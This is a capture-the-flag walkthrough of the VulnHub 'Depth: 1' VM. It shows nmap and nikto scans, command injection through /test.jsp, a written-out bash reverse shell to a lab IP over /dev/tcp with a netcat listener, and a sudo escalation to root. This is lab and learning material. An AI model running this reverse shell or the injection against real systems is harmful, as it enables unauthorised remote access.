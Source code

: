 # DEPT1

lets begin dig in,,,,,,,,,,,,,,,,

About Release
Back to the Top
Name: Depth: 1
Date release: 27 Oct 2017
Author: Dan Lawson
Series: Depth
Web page: https://depthsecurity-my.sharepoint.com/personal/dlawson_depthsecurity_com/_layouts/15/guestaccess.aspx?docid=1ed416c7a2c4640c3bc2bfcb64e5a9823&authkey=AYzxAjGDCvY90H355bLzTTo
Description
Back to the Top
Many times while conducting a pentest, I need to script something up to make my life easier or to quickly test an attack idea or vector. Recently I came across an interesting command injection vector on a web application sitting on a client's internet-facing estate. There was a page, running in Java, that allowed me to type arbitrary commands into a form, and have it execute them. While developer-provided webshells are always nice, there were a few caveats. The page was expecting directory listing style output, which was then parsed and reformatted. If the output didn't match this parsing, no output to me. Additionally, there was no egress. ICMP, and all TCP/UDP ports including DNS were blocked outbound.

I was still able to leverage the command injection to compromise not just the server, but the entire infrastructure it was running on. After the dust settled, the critical report was made, and the vulnerability was closed, I thought the entire attack path was kind of fun, and decided to share how I went about it. Since I enjoy being a free man and only occasionally visit prisons, I've created a simple boot2root style VM that has a similar set of vulnerabilities to use in a walkthrough.

MD5: 47975764E3A6AAD07749C35072C1B025
SHA1: 6516163F84ACDDD846981C94262EC3538A18970E


lets begin enumeration::::::
  nmap_------
  # Nmap 7.94SVN scan initiated Sun Sep 15 13:14:16 2024 as: nmap -sV -sC -Pn -oN nmap 192.168.73.144
Nmap scan report for 192.168.73.144
Host is up (0.00024s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
MAC Address: 00:0C:29:29:4E:C1 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 15 13:14:32 2024 -- 1 IP address (1 host up) scanned in 16.11 seconds

 
 
 
 
 
 ***NIKTO  is a pluggable web server and CGI scanner written in Perl, using rfp’s LibWhisker to perform fast security or informational checks.




nikto -h http://192.168.73.144:8080/


- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.73.144
+ Target Hostname:    192.168.73.144
+ Target Port:        8080
+ Start Time:         2024-09-16 01:57:30 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a differe: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /test.jsp: This might be interesting.
+ /manager/status: Default Tomcat Server Status interface found.
+ 8254 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2024-09-16 01:57:45 (GMT5.5) (15 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested



 /test.jsp: This might be interesting.  might hide something so search it on url as http://192.168.73.144:8080/test.jsp

 
 listing out for user name
 
 Command: ls -l /home

Owner	Group	Size	Filename
bill 	bill 	4096 	bill


 so then i list out the tmp folder
 
 
 Command: ls -l /tmp

Owner	Group	Size	Filename
tomcat8 	tomcat8 	4096 	hsperfdata_tomcat8
root 	root 	4096 	systemd-private-70a6d11547824f1ba12a1cc1dd61b2af-systemd-resolved.service-W9Wr87
root 	root 	4096 	systemd-private-70a6d11547824f1ba12a1cc1dd61b2af-systemd-timesyncd.service-yZfQxx
tomcat8 	root 	4096 	tomcat8-tomcat8-tmp
root 	root 	4096 	vmware-root 



no-w i've to generate reverse shell using reverse shell genaretor:::::::
ssh bill@localhost sudo bash -i >& /dev/tcp/192.168.73.129/4242 0>&1  {get it form online reverse shell generator}
using netcat  for nc -lvp 4242

::::::::getting the shell:::Boooooyahhhhhhhhhh:""""::: 


THEn i simply use sudo -l for take a look on permissions 
Matching Defaults entries for root on b2r:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on b2r:
    (ALL : ALL) ALL
root@b2r:~# sudo  su 
then go to that root folder
the i successfully get the flag
which is ::
::::::::::::::::::::::::::::::flag{WellThatWasEasy}:::::::::::::::::::::::::::::


{ESY} DEPTH1---VULNHUB





  
















